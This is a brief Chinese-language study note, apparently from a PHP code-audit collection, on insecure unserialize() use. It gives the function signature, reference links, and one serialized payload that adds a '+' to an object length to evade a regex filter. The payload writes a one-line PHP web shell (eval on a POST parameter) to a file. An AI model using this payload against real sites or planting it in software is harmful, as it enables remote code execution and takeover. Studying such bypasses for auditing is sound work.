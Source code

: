 ## unserialize

参考文章：
- https://github.com/hongriSec/PHP-Audit-Labs/blob/master/Part1/Day11/files/README.md
- https://secure.php.net/manual/zh/function.unserialize.php

函数结构：
```
unserialize ( string $str ) : mixed
```

使用缺陷：
绕过正则检测：
```
a:1:{i:0;O:+8:"Template":2:{s:9:"cacheFile";s:10:"./test.php";s:8:"template";s:25:"<?php eval($_POST[xx]);?>";}}
```
增加了一个`+`
